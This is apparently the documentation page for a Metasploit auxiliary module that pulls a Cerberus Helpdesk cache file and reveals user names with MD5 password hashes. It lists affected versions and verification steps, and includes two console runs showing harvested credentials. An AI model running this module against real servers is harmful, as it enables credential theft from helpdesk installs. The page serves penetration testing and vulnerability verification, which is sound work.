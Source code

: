 ## Description

This module opens a `devblocks_cache---ch_workers` or `zend_cache---ch_workers` file which contains a
data structure with username and password hash (MD5) credentials.  The contents looks similar to JSON, however it is not.

## Vulnerable Application

This module has been verified against:

1. Version 4.2.3 Stable (Build 925)
2. Version 5.4.4

However it may also work up to, but no including, version 6.7

Version 5.4.4 is available on [exploit-db.com](https://www.exploit-db.com/apps/882596e791e54529b29ecbc6f48a6cb7-cerb5-5_4_4.zip)

* of note, 5.4.4 has to be installed on a PRE php7 environment.

## Verification Steps

1. Start msfconsole
2. ```use auxiliary/gather/cerberus_helpdesk_hash_disclosure```
3. ```set rhosts [rhosts]```
4. ```run```

## Scenarios

### 4.2.3 using zend (not verbose)

  ```
    msf > use auxiliary/gather/cerberus_helpdesk_hash_disclosure
    msf auxiliary(cerberus_helpdesk_hash_disclosure) > set rhosts 1.1.1.1
    rhosts => 1.1.1.1
    msf auxiliary(cerberus_helpdesk_hash_disclosure) > run
    
    [-] Invalid response received for 1.1.1.1    for /storage/tmp/devblocks_cache---ch_workers
    [+] Found: admin:aaa34a6111abf0bd1b1c4d7cd7ebb37b
    [+] Found: example:112302c209fe8d73f502c132a3da2b1c
    [+] Found: foobar:0d108d09e5bbe40aade3de5c81e9e9c7
    
    Cerberus Helpdesk User Credentials
    ==================================
    
     Username                     Password Hash
     --------                     -------------
     admin                        aaa34a6111abf0bd1b1c4d7cd7ebb37b
     example                      112302c209fe8d73f502c132a3da2b1c
     foobar                       0d108d09e5bbe40aade3de5c81e9e9c7
    
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
  ```

### 5.4.4 using devblocks

  ```
    msf > use auxiliary/gather/cerberus_helpdesk_hash_disclosure 
    msf auxiliary(cerberus_helpdesk_hash_disclosure) > set rhosts 192.168.2.45
    rhosts => 192.168.2.45
    msf auxiliary(cerberus_helpdesk_hash_disclosure) > set targeturi /cerb5/
    targeturi => /cerb5/
    msf auxiliary(cerberus_helpdesk_hash_disclosure) > set verbose true
    verbose => true
    msf auxiliary(cerberus_helpdesk_hash_disclosure) > run
    
    [*] Attempting to load data from /cerb5/storage/tmp/devblocks_cache---ch_workers
    [+] Found: bar@none.com:37b51d194a7513e45b56f6524f2d51f2
    [+] Found: foo@none.com:acbd18db4cc2f85cedef654fccc4a4d8
    [+] Found: mike@shorebreaksecurity.com:18126e7bd3f84b3f3e4df094def5b7de
    
    Cerberus Helpdesk User Credentials
    ==================================
    
     Username                     Password Hash
     --------                     -------------
     bar@none.com                 37b51d194a7513e45b56f6524f2d51f2
     foo@none.com                 acbd18db4cc2f85cedef654fccc4a4d8
     admin@example.com            18126e7bd3f84b3f3e4df094def5b7de
    
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
  ```
